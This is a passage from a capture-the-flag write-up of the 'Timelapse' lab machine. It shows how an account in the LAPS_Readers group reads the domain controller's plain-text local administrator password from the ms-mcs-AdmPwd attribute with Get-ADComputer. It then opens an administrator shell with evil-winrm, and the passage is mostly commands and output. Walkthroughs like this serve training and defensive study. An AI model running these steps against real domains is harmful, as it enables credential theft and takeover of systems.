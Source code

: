 ```powershell

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

When using LAPS, **2 new attributes** appear in the **computer** objects of the domain: `**ms-mcs-AdmPwd**` and `**ms-mcs-AdmPwdExpirationTime**`_._ These attributes contains the **plain-text admin password and the expiration time**. Then, in a domain environment, it could be interesting to check **which users can read** these attributes. In our case **svc_deploy** can read them. So we can use command `Get-ADComputer DC01 -property 'ms-mcs-admpwd'`

```powershell
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.10\share> Get-ADComputer DC01 -property 'ms-mcs-admpwd'


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : 3x5Ir9L7;Gd$6i62d,f3A+9w
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :
```

## Shell as Root

Now we have the password of local admin account of domain computer DC01. Let's log into it and using evil-winrm

```powershell
evil-winrm -u administrator -p '3x5Ir9L7;Gd$6i62d,f3A+9w' -i timelapse.htb -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```

